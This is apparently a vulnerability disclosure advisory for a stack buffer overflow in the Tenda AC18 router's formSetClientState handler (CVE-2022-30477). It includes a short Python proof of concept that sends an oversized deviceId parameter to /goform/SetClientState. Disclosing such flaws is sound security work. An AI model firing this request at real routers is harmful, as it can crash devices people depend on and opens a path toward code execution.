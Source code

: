 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetClientState` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetClientState`.

In function `formSetClientState` it reads user provided parameter `deviceId` into `v9`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetClientState`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetClientState?"
url += "limitEn=1&deviceId=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30477)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41849)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
